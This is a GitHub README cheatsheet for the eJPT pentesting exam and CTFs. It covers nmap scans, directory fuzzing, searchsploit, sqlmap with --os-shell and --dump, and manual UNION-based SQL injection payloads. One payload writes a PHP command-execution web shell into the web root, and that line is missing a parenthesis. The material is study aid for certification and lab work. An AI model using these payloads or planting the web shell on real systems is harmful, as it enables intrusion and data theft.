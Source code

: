 # Exam-eJPT-Cheatsheet
Ayuda de algunos comandos que pueden utilizarse en el eJPT o en algun CTF.

## Common ports
| Port | Protocol | Hint                   |
|------|----------|------------------------|
| 22   | SSH      |                        |
| 25   | SMTP     |                        |
| 110  | POP3     |                        |
| 115  | SFTP     |                        |
| 143  | IMAP     |                        |
| 80   | HTTP     |                        |
| 443  | HTTPS    |                        |
| 23   | TELNET   |                        |
| 21   | FTP      |                        |
| 3389 | RDP      |                        |
| 3306 | MYSQL    |                        |
| 1433 | MS SQL   |                        |
| 137  | NETBIOS  | find work groups       |
| 138  | NETBIOS  | list shares & machines |
| 139  | NETBIOS  | transit data           |
| 53   | DNS      |                        |

### Nmap Scans
#### OS Detection
    nmap -Pn -O <IP>
#### Nmap Scan ports
    nmap -p- --open -T5 -n <IP> -oG allPorts
    nmap -p- --open -sS --min-rate 5000 -n -Pn <IP> -oN allPorts (Rapido)
#### Nmap Scan Scripts reconocimiento.
    nmap -sC -sV -p<ports> 10.10.10.10 -oN target
#### Nmap Scan (UDP Quick)
    nmap -sU -sV <IP> 
#### Other nmap scan useful during exam
    nmap -sV -Pn -T4 -A -p- -iL hosts.nmap -oN ports.nmap
    nmap --script vuln --script-args=unsafe=1 -iL hosts.nmap
# FUZZING
## mi herramienta favorita para hacer fuzzing  es wfuzz pero existen otras que podemos utilizar.
    wfuzz -c --hc=404,400 -w <dictionaryFile> http://<IP>/FUZZ
#### subdominios pordemos usa el -Z en wfuzz
    wfuzz -c --hc=404,400 -Z -w <dictionaryFile> http://<IP>/FUZZ
#### Herramientas dirsearch , dirb podemos usar tambien gobuster
    dirsearch.py [-u|--url] target [-e|--extensions] extensions [options]
    dirb http://<IP>
# Buscar exploits
### Sabemos que para buscar vulnerabilidades podemos usar google u tirar de esta  herramienta llamada searchsploit
#### Busqueda 
    searchsploit <Name>
#### Inspeccionar
    searchsploit -x path : example searchsploit -x linux_x86-64/47151.c
#### copiar exploit
    searchsploit -m path : example searchsploit -m linux_x86-64/47151.c
# SQLi
### SQLMap
### Podemos tirar de esta herramienta para las injecciones SQL , pero dejare un pequeño recurso para hacerlo manualmente.
    sqlmap -u http://<IP> -p parameter
    sqlmap -u http://<IP>  --data POSTstring -p parameter
    sqlmap -u http://<IP> --os-shell
    sqlmap -u http://<IP> --dump
### Recurso 
https://cheatsheet.haax.fr/web-pentest/injections/server-side-injections/sql/
### Sentencias comunes SQLi
#### Probar si nos lanza algun error
    '
    ' Order by 1000 : tratar de ordenar datos.
    ' Union Select 1 : esperar las columnas.
    ' Union Select "test" : esperar las columnas.
#### Obtener nombre de la DB
    ' Union Select database() -- -
    ' Union select schema_name from information_schema.schemata -- -
#### Tablas
    ' Union select table_name from information_schema.tables where table_schema="nameDB" -- -
#### Columnas
    ' Union Select column_name from information_schema.columns where table_schema="nameDB" and table_name="nameTable" -- -
#### Data extract
    ' Union select group_concat(column1,...,coluumnN) from <tablenale> -- -
#### Upload file or Create content
    ' Union Select "Probando" into outfile "/var/www/html/prueba.txt" -- -
#### PHP with SQLi
    'Union Select "<?php system($_GET['cmd'];?>" into outfile "/var/www/html/commandExec.php" -- -
